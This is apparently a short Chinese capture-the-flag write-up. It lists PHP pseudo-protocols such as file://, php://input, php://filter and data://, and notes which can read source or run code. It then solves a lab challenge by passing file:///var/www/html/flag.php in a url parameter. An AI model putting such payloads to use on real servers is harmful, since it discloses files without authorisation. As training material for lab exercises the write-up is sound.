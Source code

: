 # 伪协议

> 下面是常用的几个伪协议

file://

php://input(执行php代码)

php://filter(读取源码)

zip://(压缩文件)

data://(执行php代码)



**解答:**

本题只要在url 后拼接 正确的访问路径就可以了, 此处使用`file:// 伪协议`来解答, 当然,使用其他协议也可能成功

1. 直接输入: 

   http://环境地址?url=file:///var/www/html/flag.php	

2. 查看源代码就可以看到啦!!!

**注意: ` /var/www/html/`   这个目录是网站常用的路径**